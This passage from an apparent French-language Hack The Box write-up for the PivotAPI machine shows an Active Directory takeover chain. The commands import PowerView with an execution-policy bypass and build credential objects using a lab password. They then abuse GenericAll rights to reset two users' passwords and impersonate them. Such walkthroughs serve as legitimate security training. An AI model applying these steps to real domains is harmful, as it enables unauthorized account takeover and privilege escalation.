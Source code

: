 - L’utilisateur **3v4Si0N** a **GenericAll** sur l’utilisateur **DR.ZAIUSS**
- L’utilisateur **DR.ZAIUSS** a **GenericAll** sur l'utilisateur **SUPERFUME**
- L’utilisateur **SUPERFUME** est **membre** du groupe **DEVELOPERS**

Le groupe developers a l’air d’etre intéréssant. De plus, j’avais vu qu’il y avait un dossier `C:\Developers\` sur le DC auquelle je n’avais pas les permissions nécéssaires pour y accéder.

On importe le module [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) sur le DC en bypassant l’execution policy :

```powershell
❯ scp PowerView.ps1 3v4si0n@PivotAPI.LicorDeBellota.htb:/Users/3v4si0n/Desktop/PowerView.ps1

licordebellota\3v4si0n@PIVOTAPI C:\Users\3v4Si0N\Desktop>powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. Todos los derechos reservados.

PS C:\Users\3v4Si0N\Desktop> ipmo .\PowerView.ps1
```

On créer un objet PSCredential en tant que 3v4Si0N car on est connecté en SSH mais on est pas dans une PSSession :

```powershell
$SecPassword = ConvertTo-SecureString 'Gu4nCh3C4NaRi0N!23' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('LicorDeBellota\3v4Si0N', $SecPassword)
```

On change le password de l’utilisateur DR.ZAIUSS :

```powershell
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity DR.ZAIUSS -AccountPassword $UserPassword -Credential $cred
```

On créer un objet PSCredential pour impersonate l’utilisateur DR.ZAIUSS :

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('LicorDeBellota\DR.ZAIUSS', $SecPassword)
```

On change le password de l’utilisateur SUPERFUME :

```powershell
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity SUPERFUME -AccountPassword $UserPassword -Credential $Cred
```

## SSH Local Port Forwarding / Create PSSession as SUPERFUME user

Pour récupérer un shell en tant que SUPERFUME, on peut créer une PSSession ou bien forward le port WinRM en local.

### Method 1 : SSH Local Port Forwarding
